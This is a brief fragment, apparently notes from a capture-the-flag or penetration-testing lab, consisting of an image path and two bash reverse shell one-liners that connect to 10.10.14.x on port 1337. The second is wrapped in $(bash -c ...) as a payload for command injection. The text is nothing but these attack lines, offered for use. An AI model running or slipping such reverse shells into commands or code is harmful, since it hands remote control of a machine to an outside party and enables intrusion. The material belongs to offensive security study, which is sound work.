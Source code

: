 /bin/bash -i >& /dev/tcp/10.10.14.106/1337 0>&1

e.g. if code injection is possible:
$(bash -c '/bin/bash -i >& /dev/tcp/10.10.14.211/1337 0>&1')
